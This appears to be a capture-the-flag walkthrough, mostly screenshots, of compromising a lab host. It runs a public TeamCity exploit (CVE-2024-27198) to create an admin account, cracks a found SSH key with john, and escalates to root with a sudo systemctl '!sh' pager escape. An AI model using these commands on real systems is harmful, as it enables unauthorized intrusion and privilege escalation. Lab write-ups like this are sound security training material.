
We can view sourcecode:

There is a subdomain:
Adding to hosts and accessing:


Using this [exploit](https://github.com/yoryio/CVE-2024-27198):
```
python3 CVE-2024-27198.py -t http://teams.onlyrands.com -u mynewadminuser -p mypassword
```

We are logged in.

We find an id_rsa file in marco's changelogs:

It is asking password so we can use ssh2john:
```
ssh2john id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
We cracked it.

Now we can ssh to marcot:

Running linpeas we find mails:



We can try to give everyone permissions:
```
chmod 777 *
```

we can only access marcot's mails.

We have a password for matthew

Now we can switch to matthewa user:



There is a weird file.


We have password for a user.

In `/etc/passwd`:


It's braind user's password.
We are briand:


Now we can use gtfobins:


We can get root now:
```
sudo /usr/bin/systemctl status teamcity-server.service
!sh
```


